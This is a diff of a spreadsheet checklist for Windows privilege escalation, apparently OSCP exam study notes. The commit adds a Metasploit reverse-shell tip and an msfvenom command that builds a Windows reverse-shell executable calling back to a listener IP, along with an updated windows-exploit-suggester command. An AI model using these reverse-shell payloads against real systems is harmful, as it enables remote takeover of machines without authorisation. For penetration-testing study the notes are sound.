

Before and after one commit to ashwinragul89/OSCP, an Excel workbook: Windows_Priv_checklist.xlsx, sheet CheckList, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; ↵ is a line break in a cell; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload
Updated payloads and links

```diff
--- a/Windows_Priv_checklist.xlsx (sheet CheckList)
+++ b/Windows_Priv_checklist.xlsx (sheet CheckList)
-sheet tab: Sheet1
+sheet tab: CheckList
+sheet tab: KE
-D4:D5: preferred
+D4:D5: Preferred
+row 6: Pwn shell | Msf rev shell | Best for taking powershell, nc.exe is not worth | Preferred
-D68 alignment: center
+D68 alignment: left
-D148: …for port forward
+D148: …for port forward, Symentac endpoint
-C169: …windows-exploit-suggester.py --database 2017-10-10-mssb.xls --systeminfo ../systeminfo.txt --quiet
+C169: …windows-exploit-suggester.py --database 2020-04-19-mssb.xls --systeminfo /root/HTB/Bastrad/sys.txt --quiet
@@ D170 underline: off → on, text colour: black → #0563C1 @@
+row 178:  |  | msfvenom -p windows/shell_reverse_tcp ↵ LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe | non staged payload - Recommended caught via nc -lnvp 8443
```
Also changed, not shown: BOF_Cheatsheet.xlsx, SMB_Exploits.xlsx.
